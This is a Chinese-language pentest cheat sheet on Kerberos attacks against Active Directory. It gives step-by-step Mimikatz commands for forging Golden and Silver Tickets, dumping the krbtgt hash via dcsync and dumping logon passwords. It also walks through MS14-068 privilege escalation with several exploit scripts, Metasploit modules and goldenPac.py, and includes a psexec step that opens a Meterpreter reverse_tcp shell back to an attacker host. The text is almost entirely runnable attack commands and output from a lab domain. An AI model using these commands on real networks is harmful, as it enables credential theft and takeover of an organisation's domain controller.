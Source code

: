 ### 名词
	KDC(Key Distribution Center)： 密钥分发中心，里面包含两个服务：AS和TGS
	AS(Authentication Server)： 身份认证服务
	TGS(Ticket Granting Server)： 票据授予服务
	TGT(Ticket Granting Ticket): 由身份认证服务授予的票据，用于身份认证，存储在内存，默认有效期为10小时
### 黄金票据+Mimikatz
	Golden Ticket伪造TGT(Ticket Granting Ticket)，可以获取任何Kerberos服务权限，
	域控中提取krbtgt的hash
	域控：dc.zone.com
	域内机器：sub2k8.zone.com
	域内普通用户：y
	域内机器是不能访问dc上的文件
![image](/assets/Pentest_Note/master/img/390.png)

	清空票据
![image](/assets/Pentest_Note/master/img/391.png)

	域控中获取krbtgt用户的信息
	>privilege::debug
	>mimikatz log "lsadump::dcsync /domain:zone.com /user:krbtgt"
	获取信息：/domain、/sid、/aes256
![image](/assets/Pentest_Note/master/img/392.png)

	在sub2k8中生成golden ticket
	>mimikatz "kerberos::golden /krbtgt:{ntlmhash} /admin:域管理 /domain:域名 /sid:sid /ticket:gold.kirbi"
![image](/assets/Pentest_Note/master/img/393.png)

	导入
	Mimikatz#kerberos::ptt 123.kirbi
![image](/assets/Pentest_Note/master/img/394.png)
### 白银票据+Mimikatz
![image](/assets/Pentest_Note/master/img/395.png)

	Silver Ticket是伪造的TGS，只能访问指定服务权限
	域控：dc.zone.com
	域内机器：sub2k8.zone.com
	域内普通用户：y
	域控中导出
	>privilege::debug
	>sekurlsa::logonpasswords
![image](/assets/Pentest_Note/master/img/396.png)

	Sub2k8伪造票据
	>mimikatz "kerberos::golden /domain:zone.com /sid:{SID} /target:dc.zone.com /service:cifs /rc4:{NTLM} /user:y /ptt"
![image](/assets/Pentest_Note/master/img/397.png)
### MS14-068
#### 第一种
	https://github.com/abatchy17/WindowsExploits/tree/master/MS14-068
	https://github.com/crupper/Forensics-Tool-Wiki/blob/master/windowsTools/PsExec64.exe
	域控：dc.zone.com/10.1.1.100
	域内机器：sub2k8.zone.com/10.1.1.98
	域内普通用户：y，
	Sub2k8中清除票据
	Mimikatz#kerberos::purge
	>whoami /user查看SID 
	创建ccache票据文件
	> MS14-068.exe -u y@zone.com -p password -s S-1-5-21-2346829310-1781191092-2540298887-1112 -d dc.zone.com
	注入票据
	Mimikatz# Kerberos::ptc c:\xx\xx\xxx.ccache
	psexec无密码登陆
	>PsExec.exe \\dc.xx.com\ cmd.exe
#### 第二种
	需要知道用户 SID
	远程方法
  	rpcclient >lookupnames john.smith
	john.smith S-1-5-21-2923581646-3335815371-2872905324-1107 (User: 1)
	本地方法
	>wmic useraccount get name,sid
	Administrator  S-1-5-21-3415849876-833628785-5197346142-500   
	Guest          S-1-5-21-3415849876-833628785-5197346142-501   
	Administrator  S-1-5-21-297520375-2634728305-5197346142-500   
	Guest          S-1-5-21-297520375-2634728305-5197346142-501   
	krbtgt         S-1-5-21-297520375-2634728305-5197346142-502   
	lambda         S-1-5-21-297520375-2634728305-5197346142-1110 
	powerview
	>Convert-NameToSid high-sec-corp.localkrbtgt
	S-1-5-21-2941561648-383941485-1389968811-502
	metasploit使用或生成票证pykek
```bash
Metasploit: auxiliary/admin/kerberos/ms14_068_kerberos_checksum
   Name      Current Setting                                Required  Description
   ----      ---------------                                --------  -----------
   DOMAIN    LABDOMAIN.LOCAL                                yes       The Domain (upper case) Ex: DEMO.LOCAL
   PASSWORD  P@ssw0rd                                       yes       The Domain User password
   RHOSTS    10.10.10.10                                    yes       The target address range or CIDR identifier
   RPORT     88                                             yes       The target port
   Timeout   10                                             yes       The TCP timeout to establish connection and read data
   USER      lambda                                         yes       The Domain User
   USER_SID  S-1-5-21-297520375-2634728305-5197346142-1106  yes       The Domain User SID, Ex: S-1-5-21-1755879683-3641577184-3486455962-1000
```
	>git clone https://github.com/SecWiki/windows-kernel-exploits
	>python ./ms14-068.py -u <userName>@<domainName> -s <userSid> -d <domainControlerAddr> -p <clearPassword>
	>python ./ms14-068.py -u darthsidious@lab.adsecurity.org -p TheEmperor99! -s S-1-5-21-1473643419-774954089-2222329127-1110 -d adsdc02.lab.adsecurity.org
	>python ./ms14-068.py -u john.smith@pwn3d.local -s S-1-5-21-2923581646-3335815371-2872905324-1107 -d 192.168.115.10
	>python ms14-068.py -u user01@metasploitable.local -d msfdc01.metasploitable.local -p Password1 -s S-1-5-21-2928836948-3642677517-2073454066-1105
	使用mimikatz加载票证
	>mimikatz.exe "kerberos::ptc c:\temp\TGT_darthsidious@lab.adsecurity.org.ccache"
	如果时钟有偏差，请使用来自nmap的脚本clock-skew.nse
	Linux> $ nmap -sV -sC 10.10.10.10
	clock-skew: mean: -1998d09h03m04s, deviation: 4h00m00s, median: -1998d11h03m05s
	Linux> sudo date -s "14 APR 2015 18:25:16" 
	Windows> net time /domain /set
### Mimikatz+MSF
	>whoami /user 查看SID
	msf >use auxiliary/admin/kerberos/ms14_068_kerberos_checksum
	msf >set domain 域名
	msf >set password 密码
	msf >set rhost 域控机器
	msf >set user 用户
	msf >set user_sid sid
	得到.bin文件
	>apt-get install krb5-user
	上传mimikatz和bin文件
	Mimikatz# Kerberos::clist “xxxx.bin” /export
	生成kirbi文件
	Meterpreter >load kiwi
	Meterpreter >download c:/wmpub/xxxxxx.kirbi /tmp/
	注入票据
	Meterpreter >kerberos_ticket_use /tmp/xxxxxx.kirbi
	>use exploit/windows/local/current_user_psexec
	>set TECHNIQUE PSH
	>set RHOST dc.xx.com
	>set payload windows/meterpreter/reverse_tcp
	>set LHOST 192.168.1.1
	>set session 1
	>exploit
### goldenPac.py
	kali下
	>apt-get install krb5-user
	>goldenPac.py –dc-ip 10.1.1.100 –target-ip 10.1.1.100 zone.com/y:password@dc.zone.com
